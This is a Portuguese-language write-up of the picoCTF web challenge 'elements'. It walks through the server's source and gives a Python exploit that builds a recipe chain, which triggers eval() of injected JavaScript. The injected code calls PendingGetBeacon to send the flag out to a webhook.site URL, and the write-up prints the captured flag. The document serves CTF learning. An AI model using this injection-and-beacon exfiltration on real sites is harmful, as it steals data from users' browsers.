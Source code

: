 # WriteUp: elements
## Descrição do desafio
**Author**: ehhthing \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/447?category=1&page=4) \
**Categoria**: Web Exploitation \
**Dificuldade**: Difícil \
**Data**: 2024 \
**Descrição**:
> Insert Standard Web Challenge Here.
> Source code: elements.tar.gz.
> Craft some magic up here.

## Passo a Passo da Solução
### 1. Análise do código fonte
O desafio fornece os arquivos fonte do servidor (`elements.tar.gz`) por trás do website alvo. O principal arquivo a se notar é o `index.mjs`, nele descobrimos o path `/remoteCraft`. Esse path aceita um parameter chamado recipe, que passa pelas verificações:
``` javascript
if (url.pathname === '/remoteCraft') {
		try {
			const { recipe, xss } = JSON.parse(url.searchParams.get('recipe'));
			assert(typeof xss === 'string');
			assert(xss.length < 300);
			assert(recipe instanceof Array);
			assert(recipe.length < 50);
			for (const step of recipe) {
				assert(step instanceof Array);
				assert(step.length === 2);
				for (const element of step) {
					assert(typeof xss === 'string');
					assert(element.length < 50);
				}
			}
			visit({ recipe, xss });
		} catch(e) {
			console.error(e);
			return res.writeHead(400).end('invalid recipe!');
		}
return res.end('visiting!');
```
Reparamos na chamada da função `visit({ recipe, xss})`. Vamos examinar essa função:
``` javascript
async function visit(state) {
	if (visiting) return;
	visiting = true;

	state = {...state, flag }

	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));

	const proc = spawn(
		'/usr/bin/chromium-browser-unstable', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
		],
		{ detached: true }
	)

	await sleep(10000);
	try {
		process.kill(-proc.pid)
	} catch(e) {}
	await sleep(500);

	await rm(userDataDir, { recursive: true, force: true, maxRetries: 10 });

	visiting = false;
}
```
Podemos ver que essa função cria uma nova instância do chromium rodando dentro do servidor com uma aba aberta na url `http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`. A variável state está armazenando tanto os paramêtros recipe e xss quanto a flag do desafio. \ 
Agora, se formos examinar o arquivo `index.js`, encontramos a função: 
``` javascript
const evaluate = (...items) => {
	const [a, b] = items.sort();
	for (const [ingredientA, ingredientB, result] of recipes) {
		if (ingredientA === a && ingredientB == b) {
			if (result === 'XSS' && state.xss) {
				eval(state.xss);
			}
			return result;
		}
	}
	return null;
}
```
Essa função é responsável por executar as receitas descritas no `state.recipe`. Contudo, se o resultado da tarefa for igual a XSS, qualquer código dentro de `state.xss` será executado.
### 2. Solucionando o desafio
A estratégia para solucionar o desafio começa encontrando um array recipe com a sequência correta de receitas que gera um elemento XSS. No código python `exploit.py`, a função `find_sequence` será responsável por encontrar este array:
``` python
def find_sequence():
    orig = ['Fire', 'Water', 'Earth', 'Air']
    dependencies = {}
    for r in all_recipes:
        dependencies[r[2]] = [r[0], r[1]]

    dep_graph = {}

    def trace_dependency(dep):
        if dep in dependencies:
            dep_graph[dep] = set(dependencies[dep])
            for d in dependencies[dep]:
                if d in orig:
                    continue
                trace_dependency(d)

    trace_dependency("XSS")

    ts = graphlib.TopologicalSorter(dep_graph)
    res_order = list(ts.static_order())

    res_lst = [dependencies[k] for k in res_order if k in dependencies]
    return res_lst
sequence = find_sequence()
```
Agora, precisamos criar uma forma de transferir dados da aplicação aberta no chromium do server para nosso computador. Para receber os dados, utilizaremos o website webhook.site. Para enviá-los do servidor, teremos que injetar algum código javascript pelo paramater xss. O servidor está bloqueando a maioria das formas de se comunicar com outros sites pelo navegador chromium, tal como o `fetch`. Contudo, observamos que foi habilitada a opção `--enable-experimental-web-platform-features`. Desse modo, é possível usar uma função chamada `PendingGetBeacon`: 
``` python
parameters = {
    "recipe": sequence, 
    "xss": 'let pd = new PendingGetBeacon(`https://webhook.site/6850a7e0-1488-4bd2-ad3b-cdc1db0f28b1/${state.flag}`); pd.sendNow();'
}

print(sequence)

encoded_params = urlencode({"recipe": json.dumps(parameters)})

url = f"{base_url}{path}?{encoded_params}"

print(f"URL gerada: {url}")

response = requests.get(url) 
print(response.text)
```
Recebemos no webhook: *picoCTF%7Blittle_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a%7D%20btw%20contact%20me%20on%20discord%20with%20ur%20solution%20thanks%20@ehhthing* \
Decodificando-o obtemos: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a} btw contact me on discord with ur solution thanks @ehhthing \
Logo a flag é: **picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}**

## Autor da WriteUp
[Membro de Networking - Luiz Felipe](https://github.com/LuizF14)
